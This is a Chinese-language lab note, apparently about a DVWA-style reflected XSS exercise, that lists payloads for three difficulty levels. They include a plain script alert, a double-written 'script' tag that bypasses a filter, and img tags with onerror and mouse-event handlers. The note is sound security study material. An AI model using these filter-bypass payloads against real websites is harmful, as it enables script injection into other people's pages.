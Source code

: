

#### Low

```
<pre>Hello <script>alert('1')</script></pre>
```

基本形式

**script标签是js语言执行用的，当js正确执行的时候，不会出现东西，js会被浏览器执行！！！！**



#### Medium

```
<scr<script>ipt>alert('1')</script>
```

过滤掉了`script`

尝试双写绕过



#### High

```
点住我！<img src="x" onmouseup=alert(1) />
```

![image-20220115223743209](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/01%20XSS%E4%BB%8B%E7%BB%8D.assets/image-20220115223743209.png)

过滤掉了如上内容，可以尝试“无法加载图片”

```
<img src="xxx" onerror=alert("xss")>

点住我！<img src="x" onmouseover=alert(1) />
```



### XSS(Stored)——存储型XSS

![image-20220115224946930](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/01%20XSS%E4%BB%8B%E7%BB%8D.assets/image-20220115224946930.png)
